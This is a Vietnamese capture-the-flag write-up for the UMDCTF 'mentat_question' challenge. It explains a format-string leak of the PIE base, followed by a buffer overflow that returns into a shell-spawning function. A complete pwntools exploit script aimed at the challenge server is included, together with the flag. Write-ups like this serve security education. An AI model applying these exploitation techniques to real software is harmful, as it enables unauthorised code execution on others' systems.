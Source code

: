 # Challenge: mentat_question
## Description

![image](https://github.com/sangnguyenthien/CTF/assets/89742084/e397fe32-f9bc-43da-bbb7-e8d85e5532f0)

## Source 
> mentat_question

> mentat_question.c

> Dockerfile

## Solution

Đầu tiên hãy xem thử source code C:

![image](https://github.com/sangnguyenthien/CTF/assets/89742084/3074f806-29c2-4987-8bb9-9a1a5cadf5f1)

![image](https://github.com/sangnguyenthien/CTF/assets/89742084/c0c78e0a-36be-4f3c-83ec-8dd75c00e334)

Ở đây chúng ta có 2 lỗi: Buffer overflow (dòng 19, trong hàm calculate) và Format string (dòng 22, trong hàm calculate).

Hàm secret() cho chúng ta 1 cái shell. Một bài ret2win.
Tiếp theo hãy kiểm tra file thực thi bằng checksec

![image](https://github.com/sangnguyenthien/CTF/assets/89742084/86d80200-a24f-46f4-ae06-f16ed6ec1629)

Được bảo vệ bằng PIE -> Muốn return về hàm secret() thì chúng ta phải biết được địa chỉ code base -> Có thể leak bằng Format string.

Vậy ý tưởng của bài này là, đầu tiên tận dụng Format string trong hàm calculate để lấy được code base, tính toán ra địa chỉ của secret(). Sau đó, lại nhảy vào hàm calculate lần nữa. Lần này là để dùng Buffer overflow, ghi đè địa chỉ trả về trên stack của hàm calculate thành địa chỉ của secret() -> Lấy được shell -> cat flag.txt -> Win. Bắt đầu thôi!

Để "vào" được hàm calculate() mà cụ thể hơn là dòng 22 (nơi có lỗi Format string), thì chúng ta cần input:
- Với num1, bạn có thể nhập số nào cũng được, miễn là không âm.
- Với num2, nếu bạn xem qua If (dòng 16) sẽ thấy num2 phải bé hơn (<) 1. Mà num2 lại không âm -> num2 = 0. Nhưng xem lại If ở dòng 55 thì sẽ thấy nó check kí tự đầu của input (cho num2), nếu bằng 0 thì return luôn. Cái này có thể dễ dàng vượt qua bằng cách nhập 1 kí tự bất kì khác với kí tự "0" + kí tự "0" ví dụ "a0". Nó sẽ check và thấy: à ok "a" khác "0" -> pass, sau đó num2 = atoi(...) -> num2 = 0.
- Sau khi nhập xong num1, num2. Để có thể thực thi câu lệnh có lỗi Format string, ta cần pass 3 kí tự đầu là "Yes", sau đó là tùy ý ("%p" chẳng hạn). Lưu ý là có 1 câu lệnh getc() ở dòng 54, nên trong code giải tôi sẽ thêm 1 kí tự bất kì trước Yes ^^ Đừng bận tâm.
- Ok để leak thì chúng ta cần xem xem stack nó có cái giá trị nào mà mình có thể tận dụng được không. Hãy dùng GDB (set breakpoint ở câu lệnh printf(buf))

![image](https://github.com/sangnguyenthien/CTF/assets/89742084/7ea835ed-945f-4ba6-bfaa-7681c989bd83)

- Format string là 1 lỗi khá là "quyền năng". Tôi sẽ leak cái giá trị trên địa chỉ **+0x0028**.
- Vậy chúng ta sẽ dùng "%**x**$p". Nhưng **x** là bao nhiêu. Cái này liên quan đến x86-64 calling convention. Tức là: ví dụ printf("%p %p %p %p %p %p"). Thì nó sẽ in lần lượt tương ứng với mỗi %p là giá trị trên thanh ghi rsi, rdx, rcx, r8, r9. Khi thanh ghi bị dùng hết thì mới đến các giá trị trên stack. Tức là %p thứ 6 sẽ là giá trị trên stack.

![image](https://github.com/sangnguyenthien/CTF/assets/89742084/9bf57551-e4b6-47d3-9d99-3174cdcb55bd)


![image](https://github.com/sangnguyenthien/CTF/assets/89742084/4d0d72d3-c792-4424-b6ae-da28a1f7c276)


Chúng ta sẽ bắt đầu đếm **x** với địa chỉ **+0x0000** bắt đầu **x**=6 -> đến **+0x0028** thì **x** sẽ bằng 11. -> Thứ chúng ta cần input là "0Yes %11$p"

Trên GDB, gõ "ni".

![image](https://github.com/sangnguyenthien/CTF/assets/89742084/4de0f903-89a6-41b6-b11c-7b31e340de27)

Oke, đúng rồi.
Việc còn lại chỉ là tính toán địa chỉ code base -> địa chỉ secret() và ghi đè.

 

**Code giải:**

Bạn có thể dùng cyclic để tính offset sau đó ghi đè return address của hàm calculate. Ở trong code giải thì tôi có cho thêm một cái "ret" gadget trước khi gọi system() để căn chỉnh stack (Về địa chỉ của "ret" thì mọi người có thể dùng ropper hoặc ROPGadget để tìm).

Stack Alignment: https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/stack-alignment

```python
from pwn import *


#pwn/mentat-question
#UMDCTF{3_6u1ld_n4v16470r5_4_7074l_0f_1.46_m1ll10n_62_50l4r15_r0und_7r1p}

context.binary = exe = ELF("./mentat-question")

#p = process(exe.path)
p = remote("challs.umdctf.io", 32300)

input()

p.sendlineafter(b"today?\n", b"Division")

p.sendlineafter(b"divided?", b"6")

p.sendline(b"a0")

p.sendline(b"0Yes %11$p")

p.recvuntil(b"Yes ")

leak_addr = int(p.recvuntil(b" I heard", drop=True), 16)

print(hex(leak_addr))

base_addr = leak_addr - (0x55555555545c-0x0000555555554000)
print(hex(base_addr))

secret_addr = base_addr + 0x11d9
ret_gadget = base_addr + 0x101a
p.sendline(b"6")
p.sendline(b"a0")

payload = b"0Yes "
payload += b"A"*20
payload += p64(ret_gadget)
payload += p64(secret_addr)
#payload += b"aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaa"

p.sendline(payload)
p.interactive()
```



